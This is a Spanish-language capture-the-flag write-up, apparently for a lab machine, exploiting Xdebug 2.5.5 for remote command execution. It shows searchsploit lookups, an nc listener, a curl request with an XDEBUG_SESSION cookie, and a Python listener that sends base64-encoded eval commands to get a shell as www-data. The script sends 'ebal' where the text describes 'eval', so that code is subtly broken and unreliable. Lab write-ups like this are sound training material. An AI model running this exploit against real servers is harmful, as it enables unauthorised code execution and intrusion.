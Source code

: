 ## Evaluacion de Vulnerabilidades {-}

### searchsploit {-}

Checkeamos si existe un exploit relacionado con **Xdebug 2.5.5**

```bash
searchsploit xdebug
```

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizamos el exploit con el commando

```bash
searchsploit -x xdebug
```

Que hace el exploit?

- esta tirando de index.php
- se pone en escucha en el equipo de atacante en el puerto 9000
- usa el comando eval 
- deposita en una ruta del servidor un fichero con su contenido en base64
- ejecuta el fichero con php
- la peticion esta enviada por el methodo GET con `'Cookie' => 'XDEBUG_SESSION=+rand_text_alphanumeric(10)'`

### Pruebas del exploit {-}

1. Nos ponemos en escucha en el puerto 9000

    ```bash
    nc -nlvp 9000
    ```

1. Enviamos un peticion GET con el XDEBUG_SESSION en cookie

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

Recibimos datos del lado del servidor.

### Explotacion de la vulnerabilidad {-}

Buscamos un exploit en github y encontramos un script cortito que vamos a modificar y llamar exploit_shell.py

```python
#!/usr/bin/python3

import socket
import pdb

from base64 import b64encode

ip_port = ('0.0.0.0', 9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = input('>> ')
    data = data.encode('utf-8')
    conn.sendall(b'ebal -i -- ' + b64encode(data) + b'\x00')
```

1. Lanzamos el exploit

    ```bash
    python3 exploit_shell.py
    ```

1. Lanzamos una peticion GET

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

1. En la mini shell abierta del exploit_shell.py lanzamos un **whoami**

    ```php
    system('whoami')    
    ```

1. En la respuesta del **curl** se nos pone *www-data*

El exploit funciona y el comando **ifconfig** nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.

